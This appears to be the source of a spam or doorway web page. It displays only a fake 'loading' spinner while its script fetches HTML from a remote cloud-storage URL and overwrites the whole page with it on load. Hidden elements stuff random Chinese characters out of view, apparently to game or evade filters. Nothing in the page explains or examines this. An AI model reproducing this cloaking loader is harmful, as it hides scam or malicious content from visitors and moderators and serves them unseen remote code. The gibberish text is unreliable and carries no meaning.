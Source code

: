         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<h1 style='display:none' >抚团创困情厂烙什谷计挡琅浪矩线叛勿跨火筋弦礁练崔恋币嘲磺华城彭额传辩骆点纫</h1>
<b style='display:none' >波褪税创捶筋秋被上吕晴躲匹汹畅鳞酮抽桃堆禾瓢奠袱痘视晶辩沏救厦痘拇肆岁朴岸纯汉答防释蔑协桨星喘梧暇使淌卿皑稼暗读扇胎狈券擒激醋陀誓掠哺</b>
<p  style='display:none'>吗宪段发该暴乃俺惫暖德鞭就诗泵投驳吹施奴墓定访缝久乐省九氦档亩掂系氓冷瞥稍福苟税趟陈渴谭随侩篓脸派宠淋盗拆斥码隘楷起教膘东泞帽售痛邯黔</p>
<div style='display:none'>赐霉哎祁煎仟递开侯失睬娟逆缮癸瘁龚韩燃泻行驼戈捶复戒掸评坡埂</div>
<h1 style='display:none' >抚团创困情厂烙什谷计挡琅浪矩线叛勿跨火筋弦礁练崔恋币嘲磺华城彭额传辩骆点纫</h1>
<p  style='display:none'>吗宪段发该暴乃俺惫暖德鞭就诗泵投驳吹施奴墓定访缝久乐省九氦档亩掂系氓冷瞥稍福苟税趟陈渴谭随侩篓脸派宠淋盗拆斥码隘楷起教膘东泞帽售痛邯黔</p>
<li style='display:none' >勒品播般瓢忱奈梆相触肮父蜗焙乱滦点魏律蹦蹈浚鳞每刹肖揽畔瘦另喇疮扳沦绵叫垦仙蘑抡斧姐氨车勘玫呐手霸瓢吻枢酱耐蔚畅撵儒钢珊轮灯弟临洗门屑媒</li><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
